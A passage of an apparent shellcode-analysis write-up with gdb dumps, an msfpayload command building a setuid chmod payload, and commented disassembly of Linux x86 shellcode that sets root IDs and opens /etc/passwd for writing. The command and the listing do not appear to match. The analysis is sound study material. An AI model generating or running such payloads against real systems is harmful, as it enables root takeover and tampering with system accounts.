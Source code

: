 ```
   0x080497ba <+90>:	pop    eax
   0x080497bb <+91>:	int    0x80
   0x080497bd <+93>:	add    BYTE PTR [eax],al
End of assembler dump.


gdb$ pdisass 0x80497af <code+79>
Dump of assembler code from 0x80497af to 0x80497cf::	
   0x080497af <code+79>:	pop    ecx
   0x080497b0 <code+80>:	mov    edx,DWORD PTR [ecx-0x4]
   0x080497b3 <code+83>:	push   0x4
   0x080497b5 <code+85>:	pop    eax
   0x080497b6 <code+86>:	int    0x80
   0x080497b8 <code+88>:	push   0x1
   0x080497ba <code+90>:	pop    eax
   0x080497bb <code+91>:	int    0x80
   0x080497bd <code+93>:	add    BYTE PTR [eax],al
   0x080497bf:	add    BYTE PTR [eax],al
   0x080497c1:	add    BYTE PTR [eax],al
   0x080497c3:	add    BYTE PTR [eax],al
   0x080497c5:	add    BYTE PTR [eax],al
   0x080497c7:	add    BYTE PTR [eax],al
   0x080497c9:	add    BYTE PTR [eax],al
   0x080497cb:	add    BYTE PTR [eax],al
   0x080497cd:	add    BYTE PTR [eax],al
End of assembler dump.
```

Finally, we disassemble raw shellcode with Ndisasm

```
msfpayload linux/x86/chmod FILE=a5-bash MODE=4755 R | ndisasm -u -
```

and proceed to analyze it with GDB output, the following C libraries

- `/usr/include/i386-linux-gnu/asm/unistd_32.h`
- `/usr/include/asm-generic/fcntl.h`

as well as the Intel Assembly Instruction Set manual

- `64-ia-32-architectures-software-developer-vol-2a-2b-instruction-set-a-z-manual.pdf`

The following is the disassembled shellcode, commented as part of the analysis:
 
```nasm
00000000  31C9              xor ecx,ecx						; ecx = 0 (euid)
00000002  89CB              mov ebx,ecx						; ebx = 0 (ruid)
00000004  6A46              push byte +0x46					; #define __NR_setreuid 70
00000006  58                pop eax							; eax = int setreuid(uid_t ruid, uid_t euid);
00000007  CD80              int 0x80						; set real and effective user ID to 0 (root)
00000009  6A05              push byte +0x5					; #define __NR_open 5
0000000B  58                pop eax							  ; eax = int open(const char *pathname, int flags);
0000000C  31C9              xor ecx,ecx						; ecx = 0 
0000000E  51                push ecx						  ; put NULL dword on the stack
0000000F  6873737764        push dword 0x64777373			; string: dwss
00000014  682F2F7061        push dword 0x61702f2f			; string: ap//
00000019  682F657463        push dword 0x6374652f			; string: cte/
0000001E  89E3              mov ebx,esp						; ebx = /etc/passwd (pathname)
00000020  41                inc ecx							  ; ecx = 1 	(flags)	#define O_WRONLY        00000001
00000021  B504              mov ch,0x4						; ecx = 401 (flags)	#define O_NOCTTY        00000400
```